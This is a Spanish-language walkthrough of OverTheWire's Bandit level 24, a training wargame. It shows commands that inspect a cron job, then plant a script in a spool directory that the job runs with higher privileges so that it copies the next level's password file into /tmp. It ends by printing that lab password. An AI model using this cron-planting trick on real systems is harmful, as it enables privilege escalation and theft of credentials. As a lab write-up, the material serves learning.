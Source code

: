 # Bandit Walkthrough

## Bandit 24

Un programa se está ejecutando automáticamente a intervalos regulares desde cron, el programador de trabajos basado en el tiempo. Busca en `/etc/cron.d/` la configuración y verifica qué comando se está ejecutando.

**NOTA:** Este nivel requiere que crees tu propio primer script de shell. ¡Este es un gran paso y deberías sentirte orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** Ten en cuenta que tu script de shell se elimina una vez que se ejecuta, por lo que quizás quieras guardar una copia.

Lista de comandos:

```bash
##Entramos al directorio
cd /etc/cron.d
##Vemos el archivo de este nivel
cat cronjob_bandit24
##Vemos como es el script que se esta ejecutando y que hace
cat /usr/bin/cronjob_bandit24.sh
#Creamos un directorio tmp para trabajar
mkdir /tmp/juanma
cd /tmp/juanma
##Creamos un archivo con un script que manda la contraseña a otro archivo que vamos a crear
touch pasador.sh
##Damos permisos de ejecucion
chmod 700 pasador.sh 
##Hacemos el script
nano pasador.sh 
#!/bin/bash 
cat /etc/bandit_pass/bandit24 > /tmp/juanma/clave

##Copiamos el script al directorio que se esta ejecutando
cp pasador.sh /var/spool/bandit24/foo/
##Vemos la contraseña que se ha enviado al archivo clave
cat clave

```
Contraseña: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

